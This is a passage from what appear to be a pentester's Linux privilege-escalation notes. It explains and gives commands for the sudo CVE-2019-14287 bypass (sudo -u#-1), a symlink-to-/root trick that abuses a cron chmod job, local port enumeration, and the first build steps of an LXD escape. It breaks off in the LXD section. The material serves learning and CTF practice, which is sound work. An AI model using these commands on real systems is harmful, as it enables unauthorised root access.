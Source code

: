 ```bash
<user> ALL=(ALL:!root) NOPASSWD: ALL 
```

This would let your user execute any command as another user, but would (theoretically) prevent them from executing the command as the superuser/admin/root. In other words, you can pretend to be any user, except from the admin.

In practice, with vulnerable versions of Sudo you can get around this restriction to execute the programs as root anyway, which is obviously great for privilege escalation!

With the above configuration, using sudo -u#0 <command> (the UID of root is always 0) would not work, as we're not allowed to execute commands as root. If we try to execute commands as user 0 we will be given an error. Enter CVE-2019-14287.

Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so. It is worth nothing that this will only work if you've been granted non-root sudo permissions for the command, as in the configuration above.

Practically, the application of this is as follows:

```bash
 sudo -u#-1 <command>
```

If you have this (ALL : ALL) NOPASSWD: ALL just do sudo su to gain root and gg

### Netstat -tulpn

Do this to check what port is running local and try to connect to it using telnet.

[](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)[https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)

### Linking to a Folder gettinng chmod'ed

Here sometimes there is a cron job that could be something like this

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1dd9514-5c93-41ab-aab8-cd27e33b6682/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1dd9514-5c93-41ab-aab8-cd27e33b6682/Untitled.png)

So to exploit this if we have writable permission to the directory we can make a link to the root folder like so :

```bash
ln -s /root ./tmp
```

### LXD Exploitation :

On the Attacker Machine :

```bash
git clone  <https://github.com/saghul/lxd-alpine-builder.git>
cd lxd-alpine-builder
./build-alpine
```
